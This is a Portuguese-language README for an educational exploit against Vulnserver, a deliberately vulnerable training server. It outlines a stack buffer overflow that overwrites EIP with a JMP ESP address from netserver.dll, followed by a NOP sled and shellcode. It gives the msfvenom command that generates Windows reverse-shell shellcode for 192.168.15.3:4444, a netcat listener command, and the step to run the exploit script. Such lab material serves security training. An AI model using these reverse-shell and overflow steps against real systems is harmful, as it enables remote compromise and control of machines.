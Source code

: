 # Exploit - Buffer Overflow Vulnserver

Exploit didático para explorar o vulnserver rodando no Windows 10 Enterprise (x64) e ganhar reverse shell.

## Vulnserver
https://github.com/stephenbradshaw/vulnserver

## Resumo:

- 2007 bytes para sobrescrever o registrador EAX.
- 4 bytes para sobrescrever o registrador EIP (escrito em little endian) com um endereço de retorno JMP ESP da DLL netserver.dll do próprio software, que não possui proteção ASLR.
- 32 No-Operations para garantir a perfeita execução do payload.
- 351 bytes de payload para realizar a conexão reversa com 192.168.15.3:4444.

## Gerando o mesmo payload no MSFVENOM:
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.15.3 lport=4444 exitfunc=thread -b "\x00" -f c
```

## Como usar:

É necessário gerar um novo payload de acordo com o IP e porta que deseja receber a conexão reversa.

Após substituir no script prepare para receber a conexão.
```
nc -vnlp 4444
```

Execute o exploit:
```
python3 exploit.py
```
